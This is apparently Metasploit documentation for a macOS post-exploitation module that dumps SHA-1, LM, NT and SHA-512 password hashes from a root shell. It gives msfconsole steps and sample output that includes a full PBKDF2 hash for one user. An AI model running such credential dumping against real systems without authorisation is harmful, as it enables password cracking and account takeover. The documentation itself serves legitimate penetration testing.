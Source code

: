 ## Vulnerable Application

This module dumps SHA-1, LM, NT, and SHA-512 Hashes on OSX. Supports versions 10.3 to 10.14.

## Verification Steps

  1. Start msfconsole
  2. Get a root privileged shell
  3. Do: ```use post/osx/gather/hashdump```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should see hashes dumped and stored to creds (if db is connected)

## Options

### MATCHUSER
  A regex to run against usernames.  Only matched usernames will have their hashes dumped.

## Scenarios

### User level shell on OSX 10.14.4

```
msf post(osx/gather/hashdump) > run

[-] Post aborted due to failure: bad-config: Insufficient Privileges: must be running as root to dump the hashes
[*] Post module execution completed
```

### Root level shell on OSX 10.14.4

```
msf post(osx/gather/hashdump) > run

[*] Attempting to grab shadow for user nobody...
[*] Attempting to grab shadow for user h00die...
[+] SHA-512 PBKDF2:h00die:$ml$67012$52a3da29923ab1680ae7c28b40a3ba7c2386c679af0392011f706c4ec2a22475$5c935f59a173d25bd4ed5cf59464930153198ea28b70d1e4bb5fe5e39828bec8347419dc53f0f0d93f08399f30b56adcd0f9a6f6e834ba33cba58d6b35fd1021bd81e63edf2a5b2265d8c4b7908d9bcfe127cbcd3c2092d2ab58f1b7a16dc3e11e0d5a7b027c254f3f91fdeb5acc92bcf5a3cc033319f5209f635c0494854a2e
[*] Credential saved in database.
[*] Attempting to grab shadow for user root...
[*] Attempting to grab shadow for user daemon...
[*] Attempting to grab shadow for user nobody...
[*] Attempting to grab shadow for user root...
[*] Attempting to grab shadow for user daemon...
[*] Post module execution completed
```

